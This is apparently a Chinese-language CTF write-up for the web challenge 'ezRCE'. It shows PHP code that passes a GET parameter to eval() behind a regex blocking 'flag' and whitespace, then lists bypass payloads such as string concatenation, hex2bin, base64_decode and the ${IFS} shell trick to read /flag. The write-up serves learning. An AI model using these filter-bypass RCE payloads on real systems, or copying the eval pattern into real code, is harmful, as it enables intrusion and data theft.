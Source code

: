 ```yaml
---
title: ezRCE
author: SMJB
difficulty: Normal
category: Web
image: ghcr.io/svuctf/svuctf-helloworld-2024/ez_rce:latest
port: 80
writeup_author: 13m0n4de
tags:
  - php
  - rce
  - bypass
reference:
---
```


# ezRCE

## 题目描述

## 题目解析

### 源码分析

```php
<?php

highlight_file(__FILE__);

if (isset($_GET["rce"])) {
    if (preg_match("/flag|\\s/im", $_GET['rce'])) {
        die("hacker!");
    }
    eval($_GET['rce']);
}
```

这题相对于 [babyRCE](../rce/README.md) 来说，增加了一个 if 语句，使用正则表达式判断是否包含 `flag` 字符串或空白字符：

也就是增加了两个限制：

1. 禁用 "flag" 关键词：
    - `/flag/` 正则会匹配任何包含 `flag` 的字符串
    - 不区分大小写（由 `i` 修饰符控制）
    - 不能直接使用 `readfile('/flag')` 这样的命令了
1. 禁用空白字符：
    - `\s` 正则会匹配任何空白字符（包括空格、制表符、换行符等）
    - 不能像之前那样直接写 `system("ls -la")` 或 `system("cat /flag")` 了

### 绕过方法

可以利用字符串拼接来绕过：

```php
readfile("/f"."lag");
```

可以使用十六进制字符串转换绕过：

```php
readfile(hex2bin('2f666c6167'));
```

可以使用 Base64 解码绕过：

```php
readfile(base64_decode('L2ZsYWc='));
```

在执行系统命令时，可以使用 Shell 特性绕过：

```php
system('cat${IFS}/f*');
```

IFS (Internal Field Separator) 是特殊的 Shell 变量，决定了 Bash 在分割字符串序列时如何识别单词边界。它的默认值是一个由空格、制表符和换行符组成的三个字符的字符串，所以能在这里用作命令分割。

星号 `*` 是[通配符](https://zh.wikipedia.org/zh-hans/%E9%80%9A%E9%85%8D%E7%AC%A6)的一种，可以匹配任意数量的任意字符，于是 `/f*` 可以匹配到 `/flag` 文件。

方法还蛮多的。
